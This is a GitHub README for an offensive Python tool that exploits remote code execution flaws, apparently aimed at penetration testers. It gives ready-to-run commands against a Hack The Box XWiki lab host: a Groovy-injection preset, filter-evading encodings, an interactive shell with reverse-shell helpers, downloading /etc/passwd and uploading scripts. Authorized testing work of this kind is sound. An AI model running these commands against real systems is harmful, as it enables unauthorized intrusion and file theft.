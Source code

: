 # RCE-Foryou
Python tool for safely testing and exploiting RCE vulnerabilities in authorized penetration testing environments. Supports XWiki Groovy, Bash, Groovy exec, interactive shell, file upload/download, and output extraction via regex. ⚠️ Legal notice: Only use this tool in authorized environments. Unauthorized use is illegal and unethical.

Advanced Universal RCE Runner

Python tool for security researchers and pentesters to safely test Remote Code Execution (RCE) vulnerabilities in authorized environments.

This tool allows you to:

Execute arbitrary commands on HTTP targets with vulnerable input fields.

Choose between multiple payload presets (XWiki Groovy, Bash -c, Groovy exec, etc.).

Encode payloads in URL or Base64 for bypassing filters.

Extract output from responses using custom regex and optional HTML unescaping.

Use an interactive shell mode with helpers (whoami, pwd, ls, reverse-shell generators).

Upload and download files via Base64 stagers, even without write permissions beyond the RCE.

Customize headers, cookies, query parameters, and request bodies.

Work through proxies, handle retries with backoff, and toggle TLS verification.

Usage Examples

Run a single command (e.g., whoami) on XWiki vulnerable endpoint:

python3 rce_driver.py \
  --base-url http://wiki.editor.htb \
  --method GET \
  --path /xwiki/bin/get/Main/SolrSearch \
  --param media=rss \
  --inject-param text \
  --preset xwiki-groovy \
  --extract-regex "\[\}\}\}(.*?)\]" \
  --cmd "whoami"


Interactive shell mode:

python3 rce_driver.py [..same parameters..] --shell


Download a file from the target:

python3 rce_driver.py [..] --download /etc/passwd --out passwd.txt


Upload a file to the target:

python3 rce_driver.py [..] --upload ./localfile.sh:/tmp/remote.sh
